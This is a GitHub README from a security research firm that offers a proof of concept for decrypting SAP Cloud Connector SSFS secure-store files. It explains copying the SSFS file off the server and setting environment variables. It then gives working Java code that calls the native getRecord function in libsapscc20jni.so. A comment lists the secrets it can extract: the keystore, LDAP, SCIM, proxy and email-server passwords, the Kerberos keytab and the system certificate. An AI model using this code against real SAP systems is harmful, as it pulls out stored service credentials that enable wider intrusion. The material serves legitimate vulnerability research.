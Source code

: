# SAP Cloud Connector SSFS Decryption
This repository offers a Proof of Concept (PoC) for decrypting SAP Cloud Connector SSFS. The core feature of this PoC is the exploitation of an exported function - getRecord, present in the libsapscc20jni.so file. The advantage is that you can decrypt the SSFS properties values WITHOUT REVERSING THE ECRYPTION ALGORITHM.

![image](https://github.com/redrays-io/SAP_Cloud_Connector_SSFS_Decryption/assets/7976421/58d49443-f87e-46cf-a1bf-e8d9799e9e88)

To begin, you are required to download the SSFS file from the SAP Server to your personal device. As an instance, in my case, the SSFS was stored at this location on my laptop: /home/vah13/research/SSFS_SCC.DAT.
Before initiating the decryption process, it is necessary to define two parameters in the environment:

* The SAP System ID (SID). Set it with this command: export SAPSYSTEMNAME=SCC.
* The pathway to SSFS excluding the complete filename. Set it with this command: export RSEC_SSFS_DATAPATH=/home/vah13/research/SSFS.

It's important to utilize the libsapscc20jni.so library.
You can now compile and run the following code to decrypt the SSFS:
```java
package com.sap.scc.jni;  // the package must be com.sap.scc.jni

import java.io.IOException;
import java.util.Properties;

public class SecStoreAccess { // the class name must be SecStoreAccess
  
  static synchronized native char[] getRecord(final String p0) throws SecStoreAccessException, IllegalArgumentException;
  
  public static void main(String[] args) throws IOException {
    if (args.length > 1 )
    {
      System.out.print("java -jar decode.jar");
    }
    
    System.load("/usr/lib/libsapscc20jni.so");
    try
    {
      /* 
      available parameters for getRecord function
      
      "CLOUD_CONN/JAVA_KEYSTORE_PASSWORD";
      "CLOUD_CONN/SCIM_SERVICE_USER_PASSWD";
      "CLOUD_CONN/LDAP_SERVICE_USER_PASSWORD";
      "CLOUD_CONN/PROXY_PASSWORD";
      "CLOUD_CONN/KERBEROS_KTAB";
      "CLOUD_CONN/SYSTEM_CERTIFICATE";
      "CLOUD_CONN/ALERT_EMAIL_SERVER_SECRET";
      */      
      char[] result = getRecord("CLOUD_CONN/JAVA_KEYSTORE_PASSWORD");
      System.out.println(new String(result));
    
      }catch (Exception e)
    {
      e.printStackTrace();
    }
  }

}
```
![image](https://user-images.githubusercontent.com/7976421/202764294-14d66338-b94f-4825-8fec-cb673f46e15c.png)


## Contact RedRays

For any questions or further details, don't hesitate to reach out:

* [GitHub](https://github.com/redrays-io)
* [Email](mailto:vahagn@redrays.io)
* [Website](https://www.redrays.io?gh)
